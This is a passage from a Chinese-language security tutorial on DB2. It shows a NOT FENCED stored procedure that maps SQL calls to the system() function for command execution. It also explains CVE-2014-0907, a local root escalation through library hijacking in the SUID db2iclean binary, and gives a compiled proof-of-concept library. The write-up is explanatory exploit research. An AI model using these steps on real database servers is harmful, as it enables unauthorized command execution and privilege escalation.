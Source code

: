 注：

创建的存储过程默认为FENCED（受保护的），例如对于Linux下DB2的，使用db2inst1用户连接数据库创建并运行上述存储，DB2服务器端实际是以db2fenc1用户运行该存储过程的。

FENCED存储过程单独启用一个新的地址空间，而UNFENCED存储过程和调用它的进程使用用一个地址空间，一般来说FENCED存储过程比较安全。

若要创建NOTFENCED的存储过程（需要具有SYSADM特权、DBADM 特权或一个特殊的特权（CREATE_NOT_FENCED）），需要在创建存储过程中指定，如下

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME '/usr/lib/libstdc++.so.6!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL
NOT FENCED

```

0x06 利用DB2提权
============

* * *

本节介绍两个DB2提权漏洞原理及利用方法

CVE-2014-0907
-------------

CVE-2014-0907是一个DB2本地提权漏洞，受影响版本为AIX, Linux, HP-UX以及Solaris上的DB2 V9.5（FP9之前的V9.5不受影响）, V9.7, V10.1, V10.5版本

CVE-2014-0907漏洞允许一个本地普通用户获取到root权限

DB2的db2iclean程序会在当前目录下搜索libdb2ure2.so.1库文件，下图为执行该程序时对库文件的访问情况，可见DB2对于libdb2ure2.so.1库文件的搜索在当前目录先于DB2安装目录

```
strace -o /tmp/db2iclean.log  /home/db2inst1/sqllib/adm/db2iclean

```

![pic50](http://drops.javaweb.org/uploads/images/117039e272811be1a9afa513023adb6673bf8813.jpg)

如果当前目录下有恶意用户写入的同名库文件，则DB2程序会加载该文件并执行其中的代码。由于db2iclean命令是SUID root权限，因此恶意代码会以root权限被运行。

![pic51](http://drops.javaweb.org/uploads/images/baa7412028aeca786b9e3b8cfd6edc0a0a3b6978.jpg)

如将下列代码编译为库文件并放在当前目录下：

```
// libdb2ure2.cpp
#include <stdlib.h>
int iGetHostName(char* n, int i)
{
    system("id > /m.log");
}

$ gcc -shared -o libdb2ure2.so.1 libdb2ure2.cpp

```
